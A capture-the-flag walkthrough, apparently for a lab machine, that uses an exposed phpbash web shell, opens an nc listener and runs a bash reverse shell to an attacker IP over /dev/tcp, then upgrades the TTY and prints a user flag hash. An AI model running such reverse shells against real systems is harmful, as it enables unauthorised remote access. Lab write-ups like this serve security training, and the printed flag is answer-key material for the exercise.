






If we browse the website, we see that it references a GitHub page related to **phpbash**. We visit that GitHub repository to understand what it explains.



As stated in the GitHub repository, we go to the location where our **phpbash.php** file is stored, which in our case, as shown by Dirbuster, is inside the *dev* directory. When we execute it, we obtain an interactive shell and confirm that we are the **www-data** user.

While browsing the directories on the target system, we quickly discover the */scripts* directory, which is owned by the **scriptmanager** user. Running the `sudo -l` command shows that the **www-data** user is allowed to execute any command as **scriptmanager**.  For this we open a listener in our machine.


```bash
$ nc -nlvp 443
```



```bash
$ bash -c "bash -i >%26 /dev/tcp/10.10.14.15/443 0>%261"            Note:% 26 = & this is to make sure that the code interpret &
```




Now we do a TTY treatment.
```bash
$ script /dev/null -c bash
$ ctrl+z
$ stty raw -echo; fg
$ reset xterm 
$ export TERM=xterm
```
Now in our shell we can do ctrl+x and nothing happens. Now if we navigate, we can find the user flag


```bash
User flag → 261d05b6ef89951ba92102b5fcf7ed2d
```


[Back](README.md)